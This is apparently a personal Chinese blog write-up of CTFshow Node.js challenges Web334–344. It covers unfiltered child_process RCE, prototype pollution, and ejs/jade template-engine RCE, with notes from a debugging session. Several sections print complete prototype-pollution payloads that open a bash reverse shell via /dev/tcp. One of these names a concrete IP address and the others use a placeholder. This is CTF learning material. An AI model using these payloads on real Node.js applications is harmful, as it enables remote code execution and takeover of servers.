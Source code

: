 ```yaml
---
title: nodejs随笔
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720210427144151.jpg'
authorAbout: SteamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-10-11 23:09:28
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1181512.jpg
---
```

Node.js常见漏洞学习与总结
https://xz.aliyun.com/t/7184

关于继承和原型链：https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Inheritance_and_the_prototype_chain

原型链污染：https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html#0x02-javascript
##Web334
ctfshow 123456

##Web335
无过滤的rce：

	require('child_process').execSync('cat fl00g');
	require('child_process').spawnSync('ls',['./']).stdout.toString()
	require('child_process').execFileSync('ls')

##Web336

	require('child_process').spawnSync('cat',['./fl001g.txt']).stdout.toString()

##Web337
数组

##Web338
关于继承和原型链：https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Inheritance_and_the_prototype_chain

原型链污染：https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html#0x02-javascript

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211008225951.png)

关键点在utils.copy(user,req.body);

##Web339
Node.js常见漏洞学习与总结
https://xz.aliyun.com/t/7184

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211009105639.png)

36dboy改为了flag，并且多了两个类.
要让secert.ctfshow===flag，很显然只能更改secert.ctfshow的值。
原型链污染的漏洞还存在，是user类。它的上一级是Object。同时secert的上一级也是object，那么我们只要另user.__proto__.ctfshow=this.flag
但是无法实现.

多出来的api.js有这么一行：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211009164044.png)

测试一下

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211009164600.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211009165018.png)

污染点login.js 里的 utils.copy(user,req.body); ，代码执行的触发点在 api.js 的 res.render('api', { query: Function(query)(query)}); 处。

	{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/x.x.x.x/3333 0>&1\"')"}}

##Web340

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211009210841.png)

user.userinfo.isAdmin要为1，但是没办法直接通过原型链污染控制isAdmin的值，所以用上一题相同的办法，只是这里要跳两层：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211009214342.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211009212726.png)

	{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/x.x.x.x/3333 0>&1\"')"}}}

##Web341

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211009220758.png)

本以为这题能直接控制isAdmin，但是发现不行，看了看copy函数发现原来是自己理解错了，相同的没法控制：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211009220915.png)

其实这题的预期解ejs rce前几题都是可以用的。

https://evi0s.com/2019/08/30/expresslodashejs-%E4%BB%8E%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93%E5%88%B0rce/

	{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/x.x.x.x/3333 0>&1\"');var __tmp2"}}}

##Web342
jade rce
https://xz.aliyun.com/t/7025
https://tari.moe/2021/05/04/ctfshow-nodejs/

调试下，之前没搞过nodejs，一开始连用哪个软件调试都不知道。。。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010145836.png)

点击run and debug并创建好launch.json，然后直接run就行。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010150134.png)

端口默认是3000，我这里改成了3333。
第七行下断点

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010162443.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010152947.png)

step into

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010165519.png)

step into

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010165740.png)

step into

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010165803.png)

step into

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010165838.png)

进入jade模块 res.render=>app.render=>tryRender=>view.render=>this.engine

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010170021.png)

入口是rebderFile方法

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010201135.png)

返回值可执行，进入handleTemplateCache

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010203021.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010203657.png)

进入compile

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010212515.png)

都是可控的，但是上面还有个parse没看。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010220109.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010220543.png)

代码太多，直接看return的东西然后逆推。
看下js那的compile

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010220259.png)

返回的是 buf，跟进66行的this.visit(this.node)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211010224412.png)

node.line 可以被 push 到 buf 中，条件是 this.debug=true。
但是如何控制node.line的值呢？我的理解是因为这个node.line的值是不存在的，所以我们只需要污染object里面的line即可控制node.line的值。

下个断点试一下，却发现line的值在正常执行时也是有值的：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211011163825.png)

发生甚么事了？
https://xz.aliyun.com/t/7025#toc-5

好吧，距离rce还漏了很多东西，至少前面一些条件都没看。
1、首先debug要为true

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211011165311.png)

这个很好解决，因为一开始他是未定义的，直接污染即可

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211011165426.png)

2、让node.line为undefined

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211011172224.png)

不得不说这个测试的方法很妙。

3、不报错

这个时间原因懒得去调了。

payload

	{"__proto__":{"__proto__":{"compileDebug":1,"type":"Code","self":1,"line":"global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/121.196.169.53/3333 0>&1\"')"}}}

参考：https://tari.moe/2021/05/04/ctfshow-nodejs/

最后附一张草稿纸，老是记不住变量只能用笔记

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/E5056F802F0D0CBB8A16803F1E126A1F.jpg)


##Web344

	?query={"name":"admin"&query="password":"ctfshow"&query="isVIP":true}

##小结

342、343学到很多。但是现在审计水平还是一般，大概是缺少开发经验的原因。